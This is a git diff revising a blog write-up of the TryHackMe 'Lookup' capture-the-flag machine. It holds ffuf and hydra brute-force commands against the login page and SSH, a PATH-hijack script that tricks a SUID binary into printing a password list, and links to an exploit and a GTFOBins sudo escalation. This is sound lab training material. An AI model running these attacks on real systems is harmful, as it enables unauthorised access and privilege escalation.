

lookup-2

diff --git a/_posts/2025-05-20-Lookup.md b/_posts/2025-05-20-Lookup.md
@@ -3,12 +3,13 @@ layout: post
 title: Lookup (TryHackMe)
 date: 2025-05-20
 categories: [CTF, TryHackme]
-tags: [login bruteforce, GTFObins, Look]
+tags: [login bruteforce, SUID, GTFObins, Look]
 ---
+
 
 ## Nmap Result
 
-```nmap
+```bash
 PORT   STATE SERVICE REASON         VERSION
 22/tcp open  ssh     syn-ack ttl 60 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
@@ -28,7 +29,7 @@ PORT   STATE SERVICE REASON         VERSION
 ### Dirsearch
 
 
-```
+```bash
 dirsearch -h http://lookup.thm
 
 [14:33:07] 403 -  275B  - /.php                                             
@@ -41,20 +42,23 @@ dirsearch -h http://lookup.thm
 ## Website Features
 - Login page
 
-#### After we bruteforce we can find the password
+![Login](https://c00lrabbit.github.io/assets/assets/Images/Lookup/Login-page.png)
 
-```ffuf
-ffuf -w /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt -X POST -u http://lookup.thm/login.php -d 'username=admin&password=FUZZ' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8 
+- I tried injection attacks, Intercepted the traffic and Analyzed but no use.
+
+#### Using ffuf we can try bruteforcing the login
+
+```bash
+ffuf -w /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt -X POST -u http://lookup.thm/login.php -d 'username=admin&password=FUZZ' -fw 8 
 ```
-![[Pasted image 20250207175024.png]]
 ![ffuf password ](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-password.png)
 
-But this password doesn't login
-so i enumerated the username
-```ffuf
+But this password doesn't login so i enumerated the username
+
+```bash
  ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-username.txt -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=password123' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8 
 ```
-![[Pasted image 20250207175736.png]]
+
 ![ffuf uname](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-uname.png)
 
 - After we login with the correct credentials we get into `files.lookup.thm` vhost.
@@ -71,23 +75,33 @@ so i enumerated the username
 - This version is vulnerable to php command injection which leads to RCE.
 - exploit-https://www.exploit-db.com/exploits/46481
 
-![exploit](https://c00lrabbit.github.io/assets/Images/Lookup/exploit-shell.png)
+![exploit sshell](https://c00lrabbit.github.io/assets/Images/Lookup/exploit-shell.png)
 
 We can upgrade this into interactive shell using Reverse shell.com
-![[Pasted image 20250207185928.png]]
+![rev-shell](https://c00lrabbit.github.io/assets/Images/Lookup/revshell-generator.png)
 
 - After running linpeas we found a SUID
-![[Pasted image 20250207191615.png]]
+![linpeas-suid](https://c00lrabbit.github.io/assets/Images/Lookup/linpeas-SUID.png)
 
-```
+- Running pwm binary
+
+![pwm-binary](https://c00lrabbit.github.io/assets/Images/Lookup/pwm-binary.png)
+
+## Analysing the binaryy
+- When we run this binary it executes `id` command and from the result it search for a .password file under the user
+
+```bash
+cd /tmp
 echo '#!/bin/bash' > id
 echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
 chmod +x id
+export PATH=/tmp:$PATH
 /usr/sbin/pwm
 ```
 
-- after running the above line we get this password
-```password.txt
+- After running the above line we get this password list
+
+```
 jose1006
 jose1004
 jose1002
@@ -96,58 +110,28 @@ jose100190
 jose10001
 jose10.asd
 jose10+
-jose0_07
-jose0990
-jose0986$
-jose098130443
-jose0981
-jose0924
-jose0923
-jose0921
-thepassword
-jose(1993)
-jose'sbabygurl
-jose&vane
-jose&takie
-jose&samantha
-jose&pam
-jose&jlo
-jose&jessica
-jose&jessi
-josemario.AKA(think)
-jose.medina.
-jose.mar
-jose.luis.24.oct
-jose.line
-jose.leonardo100
-jose.leas.30
-jose.ivan
-jose.i22
-jose.hm
-jose.hater
-jose.fa
-jose.f
-jose.dont
-jose.d
-jose.com}
-jose.com
-jose.chepe_06
-jose.a91
-jose.a
-jose.96.
-jose.9298
-jose.2856171
+....
 
 ```
 
 - Using hydra we can bruteforce the login
-```hydra
+
+```bash
 hydra -l think -P password.txt ssh://lookup.thm -t 40 -v
 ```
-![[Pasted image 20250207193607.png]]
+![hydra-out](https://c00lrabbit.github.io/assets/Images/Lookup/hydra-out.png)
 
-# Post Compromise 
+# Privilege Escalation
 
-- After running sudo -l we found that we have access to look with sudo
-- After search in GTFO bins [Click Here](https://gtfobins.github.io/gtfobins/look/#sudo) we found a bypass
-![[Pasted image 20250207194339.png]]
+- After running `sudo -l` we found that we have access to "look" with sudo.
+- After search in GTFO bins [Click Here](https://gtfobins.github.io/gtfobins/look/#sudo) we found a bypass.
+
+![GTFO-Bins](https://c00lrabbit.github.io/assets/Images/Lookup/gtfo-bin.png)
+
+- We got the root
+![root](https://c00lrabbit.github.io/assets/Images/Lookup/root.png)
+
+## Conclusion
+- Bypassing the login page is bit tricky and getting the password list you have to think outside the box.
+- Privilege escalation is Stright forward.
+- Overall it is a good machine to Test you bruteforcing skills and Enumeration skills.
